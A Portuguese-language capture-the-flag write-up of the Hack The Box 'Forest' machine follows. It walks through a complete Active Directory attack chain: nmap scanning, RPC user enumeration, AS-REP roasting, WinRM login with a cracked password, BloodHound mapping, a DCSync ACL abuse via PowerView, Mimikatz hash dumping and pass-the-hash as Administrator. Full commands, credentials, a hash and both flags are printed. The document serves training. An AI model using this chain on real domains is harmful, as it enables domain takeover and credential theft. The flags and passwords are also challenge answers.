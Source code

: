 # Writeup forest

## Scan

```bash
# Nmap 7.92 scan initiated Sun Jan 16 15:12:00 2022 as: nmap -sV -Pn -v -p- -T5 --open -oN fullnamp.txt 10.129.213.118
Nmap scan report for 10.129.213.118
Host is up (0.16s latency).
Not shown: 65475 closed tcp ports (reset), 37 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-01-16 20:19:46Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 16 15:13:51 2022 -- 1 IP address (1 host up) scanned in 110.85 seconds
```

## Enumeration

Com o scan feito, podemos começar a enumerar o Host. Primeiro usamos o rpcclient para enumerar os usuários do DC.

```bash
rpcclient 10.129.95.210 -U "" -N -c "enumdomusers" | awk -F'[' '{print $2}' | awk -F']' '{print $1}' > user.txt
```

Dessa maneira podemos pegar os usuários do DC e colocá-los na nossa user list.

Com a user list, podemos fazer um ataque de ASREPRoast usando a tool "GetNPUsers.py".

```python
python3 GetNPUsers.py htb.local/ -usersfile ~/Desktop/hackthebox/machines/to-do/forest/users.txt -format john -no-pass -dc-ip 10.129.95.210 -outputfile  ~/Desktop/hackthebox/machines/to-do/forest/hash
```

Dessa maneira, podemos pegar o hash do usuário **scv-alfresco** e ao quebrar, obtemos sua senha: **s3rvice**.

## Exploitation

Com a senha do usuário, podemos ver se temos acessso ao winrm com o crackmapexec.

```bash
└─$ crackmapexec winrm 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
WINRM       10.129.95.210   5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.95.210   5985   FOREST           [*] http://10.129.95.210:5985/wsman
WINRM       10.129.95.210   5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Como vimos, podemos acessar o winrm com esse usuário, dessa maneira, podemos usar o "evil-winrm" para acessar o DC e pegar a User flag.

```powershell
evil-winrm -i 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
07f6141ec214ea4112a10cbb007a38f1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop>
```

## Privilege Escalation

Para fazermos o privilege esclation, precisaremos fazer a enumeração do DC com o bloodhound/Sharphound.

Para isso, fazemos o upload via evil-winrm, depois importamos o módulo powershell e invocamos o script para gerar o arquivo .zip com o comando:

```powershell
Invoke-BloodHound -CollectionMethod All
```

Depois de gerar o .zip, podemos baixar para nossa máquina e fazer o upload no Bloodhound.

OBS: Para conseguir fazer download do evil-winrm é necessário mover o arquivos para "Documents"

Commando `download .\FILE.zip PATH/TO/FILE/File.zip`

Após analisar o bloodhound, podemos ver que o nosso usuário pertence aos grupos "service accounts@htb.local" e "privileged IT accounts@htb.local" e esses grupos ter fazem parte de "account operators@htb.local" o que nos permite criar usuários. O grupo "account [operators@htb.local](mailto:operators@htb.local)" faz parte do grupo de "Exchange Windows Permissions", esse grupo tem acesso WriteDacl no objeto Domínio no Active Directory, o que permite que qualquer membro desse grupo modifique os privilégios de domínio, entre os quais o privilégio de realizar operações DCSync. Esse será nosso vetor de ataque.

Comandos:

```
net user thiago thiago123 /add /domain
net group "Exchange Windows Permissions" thiago /add
net localgroup "Remote Management Users"
$SecPassword = ConvertTo-SecureString 'thiago123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\thiago', $SecPassword)
```

Tendo feito esses comandos, temos que adicionar o module do powerview no DC para podermos adicionar nosso user para podermos fazer o DCSync.

Com o comando abaixo colocamos o user "thiago" para poder fazer DCSync:

```powershell
Add-ObjectACL -PrincipalIdentity thiago -credential $Cred -Rights DCSync
```

Após termos criado o user thiago, colocado ele nos grupos e ter feito o comando para poder fazer DCSync, podemos logar no evil-winrm, e importar o modulo "Invoke-Mimikatz.ps1" e usar o comando abaixo para podermos pegar as hashes do admin:

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:htb.local /user:Administrator"'
```

Com esse comando, pegamos o hash NTLM do Administrator e podemos logar nele com o evil-winrm e pegar a flag de root.

```powershell
└─$ evil-winrm -i 10.129.95.210 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
21b50a39bd8a47a090848ec6b8632588
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```
